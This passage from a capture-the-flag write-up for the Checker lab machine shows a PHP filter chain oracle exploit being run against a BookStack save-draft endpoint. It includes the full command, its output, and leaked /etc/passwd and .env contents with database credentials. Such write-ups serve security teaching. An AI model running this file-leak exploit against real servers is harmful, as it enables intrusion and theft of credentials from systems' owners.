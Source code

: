 We can now run the exploit script again and should be able to read files from the server. The correct request will look something like this:

![](/assets/images/writeups/checker/burp-oracle-right.png)

For instance we can verify the version of the BookStore application by targeting `../version` (version=v23.10.2).

```console
s3rp3nt@OMEN:~/php_filter_chains_oracle_exploit$ python3 filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/10/save-draft' --file '../version' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"L756lGhCCOxPAtJGbYnt2vWCqFP32qkPA1qZN9K7","Content-Type":"application/x-www-form-urlencoded","Cookie":"XSRF-TOKEN=eyJpdiI6Inc0YTlpRjRaVUlGanNLNWxuMTlYVlE9PSIsInZhbHVlIjoiMCt6T2E0enRlb0tzWExoQVQ2TmQrd2JJQkVqTkt0eXV5Mkcxbm5qQjFyR0l3bXMvZ3RLczBudThKSWNKSWxaUU0xM3ZXSHI1RXJQSlk4cVZLMHRLbXJBL0Fjc09zSmZ4UWlNTFlYTmIyR0dXRGZnMUd6N2RaYmgvMlBxaTF0RVIiLCJtYWMiOiJlZWVjYjA2MzljODk1YTI4OGYwNGRlMThlMWVjZDUyMmY4NDVhYjI0ZGRhMWM0YjQwMGY1YTIyZTA5YzJiMTNmIiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6ImU3dng4c2lFbWRpTHVFQzZEbklVbWc9PSIsInZhbHVlIjoiUWNPWGtJZWs3Ym1oUWZvVDhrdnZVWXNoUGIvcy9md0xjcW1qd2JtRDlvUjlINUdwQ2ExcmdBTmJRcnIrT2dsdDhFMXNSZWNaUUMvZFpKaGtnbXBBZXY2eWQ0K1hnNGlUZCtSRXhOWnVYc2UydWV3eFFmS2FSSkY4RXFEeGtOWUciLCJtYWMiOiI3ZGU0MWMwYTg5NDZiZWI1YzYzNGQxMzk1ZTI3ZDc1ZGE4ZGIyMWY5MGZkYmRmOGYwMGM2NWE1NzFiMzhlNmRlIiwidGFnIjoiIn0%3D; teampass_session=j7355s4vo14islb0n6e34usucu; jstree_select=1; 558fa9b1ffa04df378a1f2bb1a4cceed1e7cc9d4adbbfe21e2=071b2fcb9049e82b06036864832ea6a9364392df2c1fe3f364"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/10/save-draft
[*] The following local file is leaked : ../version
[*] Running PUT requests
[+] File ../version leak is finished!
djIzLjEwLjIK
b'v23.10.2\n'
```

Since this process is very slow, we need to find good useful files to read on the server. I leaked the `/etc/passwd` with offset `1394` to get the users on the machine (but we alread knew `reader` was a user). I also tried to leak the `.env` file at the root of the application, but these credentials where not very useful.

```console
# /etc/passwd user
reader:x:1000:1000::/home/reader:/bin/bash

# .env file 
APP_KEY=base64:A+Io9TrHdEwh5pyUfh9KJmLEw6ujrMd5uXPaWB4TnLw=

DB_USERNAME=bookstack
DB_PASSWORD=pK8HK7IHCKLCNHUJ7
```
